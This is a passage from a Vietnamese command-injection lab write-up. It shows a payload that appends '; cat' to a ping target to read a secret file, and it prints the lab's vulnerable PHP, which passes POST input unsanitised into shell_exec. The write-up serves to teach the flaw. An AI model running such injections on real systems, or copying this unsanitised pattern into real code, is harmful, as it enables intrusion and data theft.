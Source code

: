     như vậy lúc này ta đã thấy được tên của tệp bí mật, để đọc nội dung của tệp đó ta thực hiện lệnh `cat`:

    ```bash
    ping 8.8.8.8; cat /142awdfasd_secret.txt
    ``` 

    ![alt text](IMG/1/image-8.png)

    Lúc này ta sẽ lấy được dữ liệu bí mật.

- Source code của `LAB1`:

    ```php
    <?php
        if(isset($_POST['command'],$_POST['target'])){
            $command = $_POST['command'];
            $target = $_POST['target'];
            switch($command) {
                case "ping":
                    $cmd = "timeout 10 ping -c 4 $target 2>&1";
                    var_dump($cmd);
                    $result = shell_exec($cmd);
                    break;
                case "nslookup":
                    $result = shell_exec("timeout 10 nslookup $target 2>&1");
                    break;	
                case "dig":
                    $result = shell_exec("timeout 10 dig $target 2>&1");
                    break;
            }
            die($result);
        }
    ?>
    ```

## LAB2
